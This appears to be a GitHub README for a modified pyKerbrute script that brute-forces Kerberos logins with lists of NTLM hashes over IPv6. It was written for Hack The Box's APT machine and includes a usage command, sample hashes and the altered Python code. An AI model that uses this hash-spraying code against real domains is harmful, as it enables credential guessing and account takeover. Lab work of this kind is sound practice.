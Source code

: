 # NTLMhash bruteforce of kerberos login

I made modifications to ADPwdSpray.py (from [pyKerbrute](https://github.com/3gstudent/pyKerbrute)) for APT of HTB.

<br>

***I'm a beginner so there is still room for improvement.***

<br>

# usage

```
$ python brutehash.py dead:beef::b885:d62a:d679:573f htb.local henry.vinson ntlmhash hash.txt tcp
```

<br>

\*1 This scirt supports only ntlmhash mode and tcp mode of original ADPwdSpray.py

\*2 I used NThash list like following:

```
b300272f1cdab4469660d55fe59415cb
9ea25adafeec63e38cef4259d3b15c30
3ae49ec5e6fed82ceea0dc2be77750ab
```
# what I've modified

## ipv4 -> ipv6 (send_req_tcp)

```python
def send_req_tcp(req, kdc, port=88):
    data = encode(req)
    data = pack('>I', len(data)) + data
    # sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock = socket.socket(socket.AF_INET6, socket.SOCK_STREAM)
    # sock.connect((kdc, port))
    sock.connect((kdc, port, 0, 0))
    sock.send(data)
```

## last  part

```python
if __name__ == '__main__':
    kdc_a = sys.argv[1]
    user_realm = sys.argv[2].upper()
    user_name = sys.argv[3]

    file_object = open(sys.argv[5], 'r')

    for line in file_object:
        nthash = line.strip('\n')
        print(nthash)  # just show progress, you can remove this
        user_key = (RC4_HMAC, nthash.decode('hex'))
        passwordspray_tcp(user_realm, user_name, user_key, kdc_a, nthash)
```
## other

- I commentouted `from Crypto.Cipher import MD4, MD5` because of ImportError
- I deleted parts regarding UD

### success example

![brutesuccess](https://user-images.githubusercontent.com/85237728/159254302-2faddcae-b655-4d30-94da-22f1e7b0fc05.png)

# note

- please use this brutehash.py in the directory where `pyasn1` and `_crypto` are otherwise **PyAsn1Error** may happen.
- even if a valid hash found, its bruteforce attack doesn't stop, so remove `print(nthash)` in last for loop or watch carefully or ...

